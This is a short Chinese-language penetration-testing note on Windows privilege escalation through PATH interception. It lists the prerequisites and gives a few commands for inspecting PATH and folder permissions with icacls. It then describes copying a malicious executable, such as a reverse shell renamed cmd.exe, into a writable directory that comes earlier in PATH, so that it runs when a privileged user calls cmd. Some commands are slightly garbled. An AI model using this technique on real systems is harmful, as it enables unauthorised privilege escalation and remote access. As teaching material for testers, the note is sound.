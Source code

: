 # $PATH 拦截

先决条件：

• PATH 包含一个低权限的可写文件夹。

• 可写文件夹位于包含合法二进制文件的文件夹*之前。*

```bash
**通过powerup可以发现和利用 PATH 环境变量中的路径拦截机会**
$env:Path  //查看路径
#查看目标文件夹的权限
#示例输出：BUILTIN\Users: GR,GW 
icacls .exe  " C:\Program Files\nodejs\ " 

#将我们的 evil-file 放在那个文件夹中。
复制evil-file.exe  " C:\Program Files\nodejs\cmd.exe "
```

## 案例：(此案例是将cacl程序换成cmd.exe)

**若发现一个C:\temp 在 c:\windows\system32 之前。**

![https://i.imgur.com/IDAghec.png](https://i.imgur.com/IDAghec.png)

并且查到这个路径是可以通过普通用户（**BUILTIN\Users）**可写（**RX**）的

![https://i.imgur.com/6AW9R5o.png](https://i.imgur.com/6AW9R5o.png)

利用方式：将反向shell放入C:\temp文件夹，并将其命名为cmd.exe

![https://i.imgur.com/mt3htEV.png](https://i.imgur.com/mt3htEV.png)

等待高权限用户调用cmd.exe，则被触发C:\temp\**fake-cmd.exe**

![Untitled]($PATH%20%E6%8B%A6%E6%88%AA%2062db344a5f9648cab07ce8c9f3f5f2b3/Untitled.png)